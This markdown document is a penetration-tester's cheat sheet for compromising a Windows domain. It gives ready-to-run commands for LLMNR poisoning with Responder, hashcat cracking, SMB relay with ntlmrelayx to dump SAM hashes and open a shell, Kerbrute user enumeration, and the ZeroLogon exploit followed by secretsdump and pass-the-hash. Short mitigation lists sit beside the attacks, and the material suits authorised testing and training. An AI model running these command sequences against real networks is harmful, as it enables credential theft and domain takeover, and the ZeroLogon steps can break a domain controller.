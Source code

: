 ```yaml
---
title: 3 - Windows Domain Exploitation
summary: Gaining Access step – a note for attacking Windows Domain.
description: Gaining Access step – a note for attacking Windows Domain.
---
```


# Resources

---

* [Pentesting Active Directory Mind Map - ODC](https://github.com/esidate/pentesting-active-directory/tree/main)
* [Top Five Ways I Got Domain Admin 2018 Edition - Adam Toscher](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

# LLMNR Attack

---

### RESPONDER

### Principle

![exploit-llmnr-principle.png](../attachments/exploit-llmnr-principle.png)
Credit: TCM Security

### Hands On


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)


 > 
 > **<font color=red>hashcat -a 0 -m 5600 </font>myHashes.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack NetNTMLv2 hashes.

### Mitigation

* Disable LLMNR and NBT-NS
  * Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Multicast Name Resolution > OFF
  * Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > NetBIOS over TCP/IP > Disable
* If this cannot be disabled
  * Network Access Control.
  * Enforce strong user password (over 14 characters) in order to make it harder to crack hashes.

Credit: TCM Security

# SMB Relay Attack

---

### IMPACKET NTMLRELAYX

### Principle

Relay captured Hashes without cracking them to a SMB Server.

### Requirements & Limitations

* SMB Signing must be disabled on the target.
* The user that is relayed has to be admin on the target.
* It is not possible to relay a user to the same machine.

### Scan for vulnerable hosts (SMB Signing disabled)

**<font color=red>nmap --script=smb2-security-mode.nse -p445</font> \[TARGET_IP\]**</br>
Scan for disabled SMB Signing.

![tool-nmap-smb_signing.png](../attachments/tool-nmap-smb_signing.png)

### Hands on

#### Capture Hashes

Update Responder configuration to capture hashes but not respond.

 > 
 > **<font color=lightblue>/usr/share/responder/Responder.conf</font>**</br>

````
[Responder Core]

; Servers to start
SQL = On
#SMB = On # HERE #
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
````


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)

#### Relay Attacks


 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf </font>myTargets.txt <font color=red>-smb2support --no-multirelay</font>**</br>
 > Relay NTLM Hash and Dump Sam Hashes.

![tool-ntlmrelayx-smb_relay_dump_sam.png.png](../attachments/tool-ntlmrelayx-smb_relay_dump_sam.png.png)

**TO CHECK**

 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf</font> myTargets.txt <font color=red>-smb2support --no-multirelay -i</font>**</br>
 > Relay NTLM Hash and start a Bind Shell.

![tool-ntmlrelayx-smb_relay_reverse_shell.png](../attachments/tool-ntmlrelayx-smb_relay_reverse_shell.png)

 > 
 > **<font color=red>nc 127.0.0.1 11000</font>**
 > Connect to the shell.

### Mitigation

* Enable SMB Signing on all devices
  * Warning: May cause performance issues with file copies
* Disable NTML authentication on network
  * Warning: NTML is the backup solution when Kerberos don't work, NTML may be required by some applications.
* Limit high privilege accounts to specific tasks (e.g. Domain Admins only log when a Domain Admin access is required).
* Enforce Local admins restriction.

Credit: TCM Security

# Find Valid Users

---

### KERBRUTE (Brute Force)


 > 
 > **<font color=red>kerbrute -dc-ip</font> \[TARGET_DC_IP\] <font color=red>-domain</font> \[TARGET_DOMAIN\] <font color=red>-users </font>myUserList.txt <font color=red>-t</font> 10**</br>
 > Find valid users by testing all usernames in a list (`-t` is for thread).

---

### IMPACKET GETNUPUSERS (Users No Pre-Auth Required)


 > 
 > **<font color=red>python3 /opt/impacket/examples/GetNPUsers.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>myUser <font color=red>-dc-ip</font> \[TARGET_DC_IP\] <font color=red>-no-pass</font>**</br>
 > Check for users that do not require Pre-Authentication.

# Exploit

---

### ZeroLogon Exploit (CVE-2020-1472)

### Warning

This exploit could destroy the Domain Controller if you don’t restore the password after the attack.

### Check if Vulnerable

**https://github.com/SecuraBV/CVE-2020-1472** 

 > 
 > **<font color=red>python3 zerologon_tester.py</font> myNetBIOSDCName \[TARGET_DC_IP\]**</br>
 > Check if target is vulnerable to CVE-2020-1472

### Hands On

#### Exploit

**https://github.com/Sq00ky/Zero-Logon-Exploit/blob/master/zeroLogon-NullPass.py** 

 > 
 > **<font color=red>python3 zeroLogon-NullPass.py </font>myNetBIOSDCName \[TARGET_DC_IP\]**</br>
 > Run the exploit: bypass authentication and change the password to a null value. 

#### Hash Dump


 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py </font>myNetBIOSDCName<font color=red>\\$@</font>\[TARGET_DC_IP\] <font color=red>-no-pass</font>**</br>
 > Connect with empty password (after Zerologon exploit) and dump hashes. 

#### Pass the Hash


 > 
 > **<font color=red>evil-winrm -i</font> \[TARGET_IP\] <font color=red>-u</font> \[myUser\] <font color=red>-H </font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (NT Hash).

#### Restore the machine state

 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py</font> Administrator<font color=red>@</font>\[TARGET_DC_IP\] <font color=red>-hashes</font> myAdminHash**</br>
 > Dump secrets, look for `plain_password_hex`.

**https://github.com/dirkjanm/CVE-2020-1472** 

 > 
 > **<font color=red>python3 restorepassword.py </font>DOMAIN<font color=red>/</font>myNetBIOSDCName<font color=red>@</font>myNetBIOSDCName <font color=red>-target-ip</font> \[TARGET_DC_IP\] <font color=red>-hexpass</font> myPlainPasswordHex**
 > Restore the password.

